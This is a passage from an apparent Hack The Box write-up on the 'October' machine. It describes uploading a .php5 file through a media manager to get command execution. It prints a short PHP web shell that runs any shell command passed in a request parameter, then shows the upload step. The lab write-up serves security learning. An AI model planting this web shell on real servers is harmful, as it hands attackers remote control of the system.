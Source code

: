 If we click on `Media` we found the file dr.php5 so I think we can upload a file`.php5` to get a reverse shell

![](/assets/images/htb-writeup-october/php5.png)

```bash
❯ /usr/bin/cat cmd.php5
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Now upload the file

![](/assets/images/htb-writeup-october/works.png)

After that click 

![](/assets/images/htb-writeup-october/click.png)
